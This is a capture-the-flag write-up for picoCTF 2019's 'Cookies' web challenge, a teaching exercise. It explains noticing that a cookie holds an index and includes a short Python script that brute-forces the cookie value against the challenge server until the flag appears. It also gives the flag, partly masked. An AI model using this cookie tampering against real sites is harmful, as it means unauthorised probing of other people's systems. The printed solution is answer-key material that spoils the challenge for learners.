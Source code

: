 # Cookies

Tags: picoCTF 2019, Web Exploitation

| Author    | Point     |
| --------- | --------- |
| MADSTACKS | 40 points |

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Solve

When we look at the web page, there is an input form.

![CleanShot 2024-04-15 at 18.11.37](./images/CleanShot 2024-04-15 at 18.11.37.png)

I tried entering the appropriate values.

![CleanShot 2024-04-15 at 18.20.28](./images/CleanShot 2024-04-15 at 18.20.28.png)

-1 was saved in cookie. Changing this to 1 made it a special cookie, but I didn't get the flag.

![CleanShot 2024-04-15 at 18.23.11](./images/CleanShot 2024-04-15 at 18.23.11.png)

![CleanShot 2024-04-15 at 18.23.43](./images/CleanShot 2024-04-15 at 18.23.43-3175267.png)

Since it is assumed that it is an index, I wrote a script that uses brute force.

```python
import requests

url = "http://mercury.picoctf.net:29649/check"

s = requests.Session()

for i in range(1000):
    cookies = {"name": f"{i}"}
    r = s.get(url, cookies=cookies)
    if "picoCTF" in r.text:
        print(r.text)
        break
```

As a result, I got a flag.

```
$ python3 solver.py

[snip]
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_********}</code></p>
        </div>
[snip]
```

## Flag

```
picoCTF{3v3ry1_l0v3s_c00k135_********}
```